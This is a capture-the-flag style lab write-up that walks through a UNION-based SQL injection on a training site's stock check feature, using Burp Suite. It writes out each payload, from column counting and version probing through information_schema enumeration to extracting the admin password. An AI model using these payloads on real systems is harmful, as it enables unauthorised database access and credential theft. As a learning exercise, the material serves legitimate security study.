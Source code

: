 **SQL injection with filter bypass via XML encoding**

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

Solution:- 

* Navigate to the portal & turn on intercept in BurpSuite
* Now, go to any category & check it in Burpsuite's Proxy tab
* Then, Send this to repeater & turn off the intercept
* Now, we need to go step by step to check version of database
     1. Find no of columns
     2. Find datatype of the columns
     3. Version of the database
     4. Output the tables in database
     5. Get column names for the user table
     6. And, get login credentials for admin
    
* So, in order to find no of columns, add ```' ORDER BY 1--``` & increase it till we get Internal Server Error  
* Now, we know no of columns as 2, Add ```'UNION SELECT 'a', 'b'--``` to see it accepts string type or not. It does, in our case  
* Now, as we don't know the database, we need to check both Microsoft & PostGreSQL. For that, check with ```' UNION SELECT @@version, NULL--``` & ```' UNION SELECT version(), NULL--```, out of which later is giving 200 OK response.
* Now, we need to output out list of table names in DB, for that add ```UNION SELECT table_name, NULL from information_schema.tables--```
* & you'll now have table name - users_tyfcfx, we now need column names which contains username & password.
* For that, write ```'UNION SELECT column_name, NULL from information_schema.columns where table_name=users_tyfcfx--```
* Now, you'll get output with **username_xllosq** & **password_ztcdnu** as column names  
* So, we need data of these columns from table name. ```'UNION SELECT password_ztcdnu,username_xllosq from users_tyfcfx--```
* You'll get admin username & password in response. Search with __admin__ for credentials
* Now, go to target website & login with those credentials, you've solved the lab.

> NOTE :- Use encoded terms if normal text is giving Internal Server error response with CTRL+U.

![solution_lab6.png](img_8.png)